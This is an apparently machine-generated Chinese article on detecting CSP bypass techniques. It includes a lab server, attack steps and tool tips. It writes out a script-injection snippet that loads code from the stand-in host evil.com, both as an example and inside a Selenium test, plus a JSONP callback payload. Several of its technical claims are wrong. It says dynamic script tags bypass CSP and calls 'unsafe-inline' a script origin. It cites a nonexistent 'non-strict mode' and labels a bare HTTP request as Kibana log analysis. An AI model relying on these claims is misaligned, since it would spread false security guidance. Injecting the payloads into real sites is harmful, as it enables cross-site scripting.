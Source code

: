 # CSP策略绕过技术的检测与监控

## 1. 技术原理解析

### 1.1 CSP策略概述
内容安全策略（Content Security Policy, CSP）是一种安全机制，用于防止跨站脚本攻击（XSS）等注入攻击。CSP通过定义允许加载的资源来源，限制浏览器执行未经授权的脚本或加载外部资源。

### 1.2 CSP策略绕过技术
尽管CSP可以有效防止某些类型的攻击，但攻击者仍可以通过多种方式绕过CSP策略。常见的绕过技术包括：

- **CSP策略配置错误**：错误的CSP配置可能导致策略失效。
- **动态脚本注入**：通过JavaScript动态创建脚本标签，绕过CSP的限制。
- **JSONP滥用**：利用JSONP接口加载恶意脚本。
- **CSP非严格模式**：在非严格模式下，某些策略可能被绕过。

### 1.3 检测与监控机制
检测和监控CSP策略绕过技术的关键在于：

- **策略分析**：分析CSP策略配置，识别潜在的漏洞。
- **行为监控**：监控网页的脚本加载和执行行为，识别异常。
- **日志分析**：分析服务器日志，识别可疑的请求和响应。

## 2. 变种和高级利用技巧

### 2.1 CSP策略配置错误
攻击者可以通过分析CSP策略，发现配置错误并利用这些错误绕过策略。例如，如果CSP策略允许加载来自`unsafe-inline`的脚本，攻击者可以直接注入恶意脚本。

### 2.2 动态脚本注入
通过JavaScript动态创建脚本标签，可以绕过CSP的限制。例如：

```javascript
var script = document.createElement('script');
script.src = 'https://evil.com/malicious.js';
document.body.appendChild(script);
```

### 2.3 JSONP滥用
JSONP接口通常用于跨域请求数据，但攻击者可以利用JSONP接口加载恶意脚本。例如：

```html
<script src="https://example.com/jsonp?callback=alert('XSS')"></script>
```

### 2.4 CSP非严格模式
在非严格模式下，某些策略可能被绕过。例如，如果CSP策略允许加载来自`self`的脚本，攻击者可以通过同源策略加载恶意脚本。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了测试CSP策略绕过技术，可以搭建一个简单的Web服务器，配置不同的CSP策略。例如，使用Node.js搭建一个简单的Web服务器：

```javascript
const http = require('http');
const fs = require('fs');

http.createServer((req, res) => {
    if (req.url === '/') {
        fs.readFile('index.html', (err, data) => {
            res.writeHead(200, {'Content-Type': 'text/html', 'Content-Security-Policy': "default-src 'self'"});
            res.end(data);
        });
    } else {
        res.writeHead(404);
        res.end();
    }
}).listen(8080);
```

### 3.2 攻击步骤
1. **分析CSP策略**：使用浏览器开发者工具分析CSP策略配置。
2. **尝试绕过策略**：通过动态脚本注入、JSONP滥用等方式尝试绕过CSP策略。
3. **监控行为**：使用浏览器开发者工具监控脚本加载和执行行为，识别异常。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用CSP分析工具
可以使用在线工具或浏览器扩展分析CSP策略。例如，使用[CSP Evaluator](https://csp-evaluator.withgoogle.com/)分析CSP策略配置。

### 4.2 使用浏览器开发者工具
使用浏览器开发者工具可以监控脚本加载和执行行为。例如，在Chrome浏览器中，打开开发者工具（F12），选择“Network”选项卡，监控脚本加载行为。

### 4.3 使用日志分析工具
使用日志分析工具（如ELK Stack）分析服务器日志，识别可疑的请求和响应。例如，使用Kibana分析日志数据：

```bash
GET /index.html HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
```

### 4.4 使用自动化测试工具
使用自动化测试工具（如Selenium）模拟用户行为，测试CSP策略绕过技术。例如，使用Selenium编写测试脚本：

```python
from selenium import webdriver

driver = webdriver.Chrome()
driver.get('http://example.com')
driver.execute_script("var script = document.createElement('script'); script.src = 'https://evil.com/malicious.js'; document.body.appendChild(script);")
driver.quit()
```

## 结论
检测和监控CSP策略绕过技术需要综合运用策略分析、行为监控和日志分析等方法。通过搭建实验环境，使用工具和技术手段，可以有效识别和防范CSP策略绕过攻击。

---

*文档生成时间: 2025-03-11 15:56:11*
